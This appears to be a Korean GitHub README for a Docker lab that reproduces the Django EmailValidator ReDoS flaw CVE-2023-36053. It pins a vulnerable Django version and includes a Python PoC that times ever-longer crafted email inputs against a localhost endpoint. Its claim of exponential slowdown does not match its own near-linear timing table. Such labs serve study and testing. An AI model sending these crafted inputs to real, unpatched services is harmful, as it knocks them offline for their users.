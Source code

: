 # Vulnerable Django Email Validation App (CVE-2023-36053)

이 프로젝트는 Django의 `EmailValidator`에서 발생하는 **CVE-2023-36053** ReDoS 취약점을 PoC하기 위한 환경을 제공합니다. 긴 이메일 입력을 통해 서비스 거부 공격을 재현할 수 있습니다.

---

## 📂 Project Structure

```
CVE-2023-36053
├── Dockerfile
├── docker-compose.yaml
├── requirements.txt
├── manage.py
├── config/
│   ├── __init__.py
│   ├── settings.py
│   ├── urls.py
│   └── wsgi.py
└── vuln_app/
    ├── __init__.py
    ├── views.py
    └── urls.py
```

---

## 🚀 Prerequisites

- **Docker** 20.10 이상 설치  
- **docker-compose** 1.29 이상 설치  

---

## 🐳 Docker & Docker Compose 환경 구성

1. **레포지토리 클론**
   ```bash
   git clone https://github.com/yourusername/vuln-django-email.git
   cd Django/CVE-2023-36053
   ```

2. **Docker 이미지 빌드**
   ```bash
   docker-compose build
   ```

3. **컨테이너 실행**
   ```bash
   docker-compose up -d
   ```

4. **서버 상태 확인**
   ```bash
   docker-compose ps
   ```
   - `web` 서비스의 `0.0.0.0:8000->8000/tcp` 바인딩 확인

5. **애플리케이션 접속 테스트**
   ```bash
   curl http://localhost:8000/vuln/ -d "email=test@example.com"
   ```

---

## 🔧 Dockerfile

```dockerfile
FROM python:3.9-slim
WORKDIR /app

COPY requirements.txt .
RUN pip install --no-cache-dir -r requirements.txt

COPY . .
EXPOSE 8000
CMD ["python", "manage.py", "runserver", "0.0.0.0:8000"]
```

---

## 🔧 docker-compose.yaml

```yaml
version: "3"
services:
  web:
    build: .
    ports:
      - "8000:8000"
    volumes:
      - .:/app
    environment:
      - PYTHONUNBUFFERED=1
```

---

## 📋 Dependencies

- `Django==4.2.2`
- `requests`

```text
# requirements.txt
Django==4.2.2
requests
```

---

## 🎯 PoC 스크립트 (poc.py)

긴 이메일 입력에 따른 응답 시간을 측정하는 스크립트입니다:

```python
import requests
import time

def test_email(lengths):
    url = "http://localhost:8000/vuln/"
    for n in lengths:
        email = "test@" + ("a." * n) + "example.com"
        start = time.time()
        res = requests.post(url, data={"email": email})
        elapsed = time.time() - start
        print(f"labels={n}, status={res.status_code}, time={elapsed:.3f}s")

if __name__ == "__main__":
    test_email([10, 100, 1000, 10000, 50000])
```

---

## 📋 Endpoints

- **POST** `/vuln/`
  - Form data: `email` (string)
  - Response: `Valid` 또는 `Invalid`

---

## 📈 테스트 및 결과

1. `docker-compose up -d` 후 서버 실행  
2. `python3 poc.py` 실행  
3. 입력 길이에 따른 응답 시간 변화 확인

| 라벨 수 | 응답 시간 (초) |
| ------- | ------------- |
| 10      | 0.005         |
| 100     | 0.008         |
| 1000    | 0.050         |
| 10000   | 0.600         |
| 50000   | 2.800         |

*라벨 수가 늘어남에 따라 처리 지연이 기하급수적으로 증가함을 확인할 수 있습니다.*

---

## 📄 License

MIT License. 자세한 내용은 [LICENSE](LICENSE) 파일을 참고하세요.

---

## 🔗 GitHub Repository

[https://github.com/yourusername/vuln-django-email](https://github.com/yourusername/vuln-django-email)
